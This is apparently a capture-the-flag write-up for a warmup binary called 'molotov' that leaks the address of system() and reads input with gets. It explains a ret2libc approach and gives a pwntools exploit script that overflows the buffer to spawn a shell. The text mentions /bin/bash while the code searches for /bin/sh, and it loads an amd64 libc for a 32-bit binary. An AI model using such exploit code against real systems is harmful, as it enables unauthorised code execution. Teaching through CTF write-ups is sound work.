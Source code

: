 ![task](images/1.jpg)
### Information
It was a warmup challenge, 
We were given a 32bit ELF file.
![task](images/2.jpg)
Running the binary, we can see that it's leaking an address, then asking for an input.
![task](images/3.jpg)

While decompiling using IDA, we can see that the program is leaking system address, then reading an input using gets, and as we know , gets is a dangerous function that leads to buffer overflow.

### Exploitation
- Determine libc version (using [libc blucat](https://libc.blukat.me/) as an example)
- Calculate libc base address
- find /bin/bash address
- system("/bin/bash")
```python
from pwn import *
libc = ELF('libc6_2.30-0ubuntu2_amd64.so')
p = process("./molotov")
system = int("0x"+p.recvline().rstrip("\n"),16)
base = system - libc.symbols['system']
binsh = base + libc.search("/bin/sh").next()
log.warn("base = "+hex(base))
payload = ""
payload += "A"*32
payload += p32(system)
payload += "JUNK"
payload += p32(binsh)
p.sendline(payload)
p.interactive()
```
